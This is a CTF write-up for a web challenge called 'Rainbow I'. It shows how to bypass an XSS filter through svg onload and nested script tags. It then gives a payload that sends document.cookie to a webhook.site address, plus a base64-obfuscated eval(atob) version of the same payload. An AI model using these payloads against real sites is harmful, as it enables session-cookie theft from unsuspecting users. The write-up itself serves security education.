

repository: encient/encient.github.io · page: ctf/2024/gctf-2024/web/rainbow-i/index.html · generator: mkdocs

## Description
![](rainbow11.png)
///caption
///
This challenge is solved by my teammate, `Jin_707`. This writeup is written by `Jin_707`.

## Solution
From the challenge description, we can see this should be an XSS challenge, and the link also leads us to a YouTube video introducing XSS. Since source code is provided, so we move on to check the source code first (important to understand how the website works and where you should inject the payload!)

![](rainbow12.png)
///caption
///
At first, we can see that the filters implemented are quite strong which checks for all caps and  will replace it. 

![](rainbow13.png)
///caption
///
However, there are still some tags that are not being filtered like `<svg onload=alert(1)>` When doing the writeup i also found that this works `<scr<script>ipt>alert(1)</script>` because the sanitization is done by using replace, so the system will read through our payload and replace only `<script>` into empty making the payload to become `<script>alert(1)</script>`.

![](rainbow14.png)
///caption
/// 
Don’t forget to check until the end of the source code, we can see that the `bot.js` will be visiting the endpoint `/report`, which is where we should inject our payload on. <br>   
Since XSS is being triggered, we can just use the working payload and get the cookies as usual. `iFrame` is used to create a small webpage inside the web app, then supply with the unique URL from https://webhook.site/. <br>   

Payload:
```javascript {frame="none"}
<svg/onload=document.write("<iframe src='https://webhook.site/ccffcd19-da9c-4b78-a725-7377e2cab03b?cookie="+document.cookie+"'></iframe>");>
```

But just to avoid any hiccups and out of my own habits, I turn the context into base64 encoded strings and decode it back with `eval` + `atob`. Final payload: 
```javascript {frame="none"}
<svg/onload=
eval(atob("ZG9jdW1lbnQud3JpdGUoIjxpZnJhbWUgc3JjPSdodHRwczovL3dlYmhvb2suc2l0ZS9jY2ZmY2QxOS1kYTljLTRiNzgtYTcyNS03Mzc3ZTJjYWIwM2I/Y29va2llPSIrZG9jdW1lbnQuY29va2llKyInPjwvaWZyYW1lPiIpOw=="))>
```

![](rainbow15.png)
